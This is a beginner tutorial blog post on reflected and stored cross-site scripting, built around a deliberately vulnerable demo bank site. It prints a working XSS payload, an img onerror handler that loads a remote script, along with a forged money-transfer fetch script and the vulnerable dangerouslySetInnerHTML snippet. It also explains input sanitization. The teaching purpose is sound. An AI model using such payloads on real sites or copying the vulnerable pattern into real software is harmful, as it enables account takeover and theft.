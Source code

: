 ```yaml
---
title: "Web Security 101: Cross-Site Scripting (XSS) Attacks"
date: "2020-06-01T12:00:00.000Z"
template: "post"
draft: false
isWeb: true
slug: "/blog/xss/"
img: "https://zhiachong.com/media/xss-post/dsb_4.png"
category: "Security"
tags:
  - "Security"
  - "Web Development"
  - "For Beginners"
  - "Demo"
  - "Javascript"
description: A hands-on beginner's guide to what XSS attacks are and how to prevent them.
prev: "/blog/csrf/"
next: "/blog/properly-size-images/"
---
```


Cross-Site Scripting (XSS) vulnerabilities are one of the most dangerous web security holes that exist. In this post, we'll see an **interactive demo of XSS** and learn how to protect against it.

> This is the second post in my [Web Security 101](/tag/security/) series. If you've read my introduction to CSRF, some of the preamble below might look familiar... feel free to skip ahead a bit.

## Setting the Scene

Picture this: you're a responsible, hardworking person. You've saved up your money over the years at **Definitely Secure Bank®**.

<figure>
  <img src="/media/csrf-post/dsb.svg" alt="The Definitely Secure Bank logo" style="background-color: transparent;" />
  <figcaption>The Definitely Secure Bank logo.</figcaption>
</figure>

You love Definitely Secure Bank - they've always been good to you, plus they make it easy to transfer money and more via their website. Sweet, right?

To get in character, let's have you open up your online banking portal and look around. <b><a href="https://dsb.zhiachong.com/login" target="_blank">Click here to open Definitely Secure Bank's website</a></b> and login. Use **any username** and **any password** you want (don't worry - it's _definitely_ secure). Keep that tab open for the rest of this post.

Once you've logged in, you should see a landing page that looks something like this:

![](./media-link/xss-post/dsb_1.png)

Click the **"Try searching for the answer"** link. That will bring you to the Search page. Play around with it:

![](./media-link/xss-post/dsb_2.png)

Not a very helpful Search page.

## One Fateful Day...

...you get an email titled: **FREE 🎁 iPhone giveaway!!!**

You open the email and click the link: **[➡️ Claim your free iPhone ⬅️](
https://dsb.zhiachong.com/search?q=%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27https%3A%2F%2Fzhiachong.com%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E)**.

> Yes, I actually want you to click this link for the purposes of the demo.

Assuming you were logged in to Definitely Secure Bank (DSB), you should see something like this after clicking the link:

![](./media-link/xss-post/dsb_3.png)

It's a little weird that it took you to your bank's website, but it just seems like a broken link, right? Nothing to worry about?

Click back to your DSB homepage, and you should see a new transfer:

![](./media-link/xss-post/dsb_4.png)

How did that happen?!

## How It Happened

The key vulnerability here is that the DSB search results page **echoes the search query without sanitizing it**. Remember this screenshot from earlier?

![](./media-link/xss-post/dsb_2.png)

Notice how the search query ("How do I transfer money") is echoed back onto the page: _Unfortunately, no results were found for **How do I transfer money**_.

What if our search query was a valid HTML string?

![](./media-link/xss-post/dsb_5.png)

Woah. That HTML `<a>` tag actually renders and functions as a link. Seems insecure, doesn't it?

Let's look at the demo attack from earlier. The attacker used a link to the DSB search results page with this format:

https://dsb.zhiachong.com/search?q=SEARCH_QUERY_HERE

The value of `SEARCH_QUERY_HERE` was:

```
%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27https%3A%2F%2Fzhiachong.com%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E
```

which [URL decodes](https://www.quora.com/What-is-URL-encoding-and-decoding) to:

```
<img src="#" onerror="const a=document.createElement('script');a.src='https://zhiachong.com/xss-demo.js';document.body.appendChild(a);" />
```

Look familiar? Let me syntax highlight that for you:

```html
<img src="#" onerror="const a=document.createElement('script');a.src='https://zhiachong.com/xss-demo.js';document.body.appendChild(a);" />
```

It's an image tag sourced from `"#"`, which errors and runs the Javascript code contained in the `onerror`! Here's the `onerror` code prettified:

```js
const a = document.createElement('script');
a.src = 'https://zhiachong.com/xss-demo.js';
document.body.appendChild(a);
```

This downloads the `xss-demo.js` script (which could be _anything_) and executes it. Here's what it contained in our case:

```js
// Header: xss-demo.js
const body = new URLSearchParams('amount=5000&description=Gotcha!&to=XSS-Attackers');
fetch('/transfer', {
  body,
  method: 'post',
});
```
<figcaption>Uses the <a href="https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API" target="_blank" rel="noopener noreferrer">Fetch API</a></figcaption>.

This sends an [HTTP POST](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST) request to the Definitely Secure Bank's (DSB) `/transfer` endpoint with these parameters:

| Parameter | Value |
| --- | --- |
| `amount` | 5000 |
| `description` | Gotcha! |
| `to` | XSS-Attackers |

**This request is identical to a legitimate transfer request** you would've created yourself. That's why XSS vulnerabilities are so dangerous - **the attacker can completely impersonate you** and do anything you could've done.

To summarize how clicking a spam link ended with you losing $5000:
- The link brought you to DSB's search results page, which unsafely reflects your search query.
- The search query was actually HTML code that caused your browser to download and execute an arbitrary script.
- That script sent a transfer request to the DSB server.
- The DSB server processed the request, since it saw nothing wrong.

There you have it: Cross-Site Scripting.

## Reflected vs. Stored XSS

The example above was an instance of **reflected XSS**, because it depended on DSB immediately reflecting a user input (the search query) back onto the page.

The other common type of XSS is **stored XSS** (or persistent XSS). This happens when the malicious code (usually an injected script, like in our example) is **stored on the target site's servers**. A classic example is storing user-generated comments without sanitizing them. An attacker could leave a malicious comment that injects a script, and **anyone who views that comment would be affected**.

## Do CSRF tokens protect against XSS?

You may have noticed that the `/transfer` endpoint has no [Cross-Site Request Forgery](/blog/csrf/) (CSRF) protection, which typically includes requiring a [CSRF token](/blog/csrf/#so-how-do-you-prevent-csrf-then). This was on purpose because it's used in my [CSRF demo](/blog/csrf/), which I recommend reading if you don't know what CSRF is.

To answer the question: **CSRF protection does nothing to prevent XSS** because XSS attacks don't originate from a different site, whereas CSRF attacks do. When done correctly, a request created by an XSS attack looks completely legitimate.

## How _do_ you prevent XSS?

It's simple: **sanitize user inputs**. Anytime you're inserting untrusted (user-generated) data onto your webpage, clean it first.

_How_ to do this cleaning is a bit outside of the scope of this post, but the good news is that it often comes for free. For example, [React](https://reactjs.org/), which the DSB site is built with, uses [JSX](https://reactjs.org/docs/introducing-jsx.html) syntax, which automatically [escapes values before rendering](https://reactjs.org/docs/introducing-jsx.html#jsx-prevents-injection-attacks) them, helping to prevent XSS attacks. To make the DSB search page vulnerable to XSS, I had to do this:

```jsx
<p>
  Unfortunately, no results were found for{' '}
  <span dangerouslySetInnerHTML={{ __html: query }} />.
</p>
```
<figcaption>
  DSB is open-source: you can see this code on <a href="https://github.com/vzhou842/definitely-secure-bank/blob/master/src/Search.js#L47-L50" target="_blank" rel="noopener noreferrer">Github</a>.
</figcaption>

Yup. It's named `dangerouslySetInnerHTML` for a reason.

If you're interested in the specifics of XSS prevention, I recommend this [XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html). Alternatively, if you want to learn more about web security in general, check out my [introduction to CSRF](/blog/csrf/) as mentioned before.

Thanks for reading, and stay safe!
